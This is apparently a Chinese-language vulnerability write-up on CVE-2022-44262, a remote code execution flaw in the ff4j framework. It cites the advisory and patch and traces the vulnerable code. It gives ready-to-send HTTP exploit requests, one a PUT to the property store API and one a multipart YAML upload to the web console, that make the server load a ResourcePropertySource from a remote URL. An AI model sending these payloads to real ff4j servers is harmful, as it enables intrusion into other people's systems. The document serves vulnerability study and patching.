




# CVE-2022-44262 ff4j framework 远程代码执行漏洞

By. Whoopsunix

# 0x00 概述

通告 https://github.com/ff4j/ff4j/issues/624

codeql https://github.com/github/codeql/issues/10828

# 0x01 复现

```http
PUT /api/ff4j/propertyStore/properties/test HTTP/1.1
Host: 127.0.0.1:8080
Content-Type: application/json
accept: application/json
Content-Length: 153

{ "name": "test", "description": null, "type": "org.springframework.core.io.support.ResourcePropertySource", "value": "http://127.0.0.1:1234/index.html"}
```

# 0x02 分析

根据 [官方补丁](https://github.com/ff4j/ff4j/pull/625/files#diff-b163e39eb82037c6273fc953a9c0f6ab8159635e25b2d590796fb664c2855d6c) 修改的代码，可以定位到多个可触发漏洞的方法，任选其中一种进行复现，以 json 举例看`org.ff4j.property.util.PropertyFactory#createProperty()`  方法。

在代码中定位到 `org.ff4j.spring.boot.web.api.resources.PropertyResource#createOrUpdateProperty（）` 方法中调用到了上述方法。



该方法是用 Kotlin 写的控制器，根据源码构造该控制器的请求包

RESOURCE_PROPERTIES_STORE_PROPERTIES 对应路径 `/api/ff4j/propertyStore/properties` 

PATH_PARAM_NAME 暂时未知

继续跟进一下 `createOrUpdateProperty()` 方法，发现 PATH_PARAM_NAME 需要匹配 test



所以得到了触发该方法的请求

```
PUT /api/ff4j/propertyStore/properties/test HTTP/1.1
Host: 127.0.0.1:8080
Content-Type: application/json
accept: application/json
Content-Length: 153

```

接下来继续看 json 怎么构造，还是在 `createOrUpdateProperty()` 方法中有限制，需要这几个字段



最后寻找符合条件的构造方法



当然其他方式也是类似的逻辑寻找对应 api 接口就好了，举例从控制台 YAML 触发 http://127.0.0.1:8080/ff4j-web-console/home 

```http
POST /ff4j-web-console/home HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------7596622174150701089351858905
Content-Length: 694
Origin: http://127.0.0.1:8080
Connection: close
Referer: http://127.0.0.1:8080/ff4j-web-console/home
Cookie: JSESSIONID=DC46B65E175C8D3CC2A5BF30BC47D947
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

-----------------------------7596622174150701089351858905
Content-Disposition: form-data; name="op"

import
-----------------------------7596622174150701089351858905
Content-Disposition: form-data; name="flipFile"; filename="payload.yml"
Content-Type: application/x-yaml

# -----------------------------
# Core FF4J
# -----------------------------
ff4j:
  autocreate: false
  audit: false

  # -----------------------------
  # Bloc Properties
  # -----------------------------

  properties:
    - name: a
      type: org.springframework.core.io.support.ResourcePropertySource
      value: http://127.0.0.1:1234/index.html
-----------------------------7596622174150701089351858905--

```


